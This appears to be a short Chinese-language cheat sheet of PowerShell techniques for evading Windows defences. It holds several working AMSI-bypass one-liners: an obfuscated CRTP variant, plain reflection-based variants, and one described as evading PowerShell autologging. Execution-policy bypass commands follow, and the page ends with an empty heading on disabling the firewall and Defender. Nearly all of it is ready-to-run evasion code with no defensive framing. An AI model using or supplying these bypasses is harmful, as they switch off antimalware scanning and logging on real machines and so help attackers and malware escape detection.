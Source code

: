 # 绕过AMSI 

CRTP绕过示例
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

普通AMSL绕过示例
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```

不会被PowerShell autologging检测到的绕过示例
```
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

# 绕过powershell执行策略
```
powershell -ep bypass

powershell -ExecutionPolicy bypass

powershell -c <cmd>

$env:PSExecutionPolicyPreference="bypass"

PowerShell.exe -ExecutionPolicy Bypass -File xxx.ps1 (cmd下)
```

# 关闭防火墙和windows defend
